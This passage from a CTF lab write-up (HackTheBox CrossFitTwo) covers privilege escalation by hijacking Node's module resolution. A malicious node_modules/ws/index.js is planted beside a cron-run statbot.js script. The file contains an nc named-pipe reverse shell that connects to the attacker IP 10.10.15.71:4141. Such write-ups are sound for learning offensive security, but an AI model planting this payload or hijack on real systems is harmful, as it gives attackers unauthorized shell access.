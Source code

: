 
# Privesc

User "david" is in "sysadmins" group.

![](/assets/img/posts/crossFitTwo/david-groups.png)

Searching for files where "sysadmins" group users have read/write access.
```bash
crossfit2$ find / -group sysadmins -ls 2>/dev/null
1244170    4 drwxrwxr-x    3 root     sysadmins      512 Feb  3  2021 /opt/sysadmin
```

Find a javascript file inside `/opt/sysadmin/server/statbot`
```bash
-rw-r--r--  1 root  wheel  740 Jan 13  2021 statbot.js`
```

* script is executing every minute and loging data in `/tmp/chatbot.log`

## Node module hijack

script using 2 nodejs modules
```js
const WebSocket = require('ws');
const fs = require('fs');
```

but there is no node_module directory in current folder. Whenever we create a new project and install required modules with `nmp` they installed in `node_modules` directory inside project folder. if not than used from nmp global library. you can understand nodejs folder Structures from [docs.npmjs.com](https://docs.npmjs.com/cli/v7/configuring-npm/folders)

* websocket module install in `node_modules/ws` directory and load from `node_modules/ws/index.js`.

Get nodejs reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

user "david" have write access in `/opt/sysadmin` directory.

Create recursive directry `node_modules/ws/` and inside this folder create `index.js` file with reverse shell.

```bash
mkdir -p /opt/sysadmin/node_modules/ws/
cat << EOF > /opt/sysadmin/node_modules/ws/index.js
require('child_process').exec('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.71 4141 >/tmp/f')
EOF
```
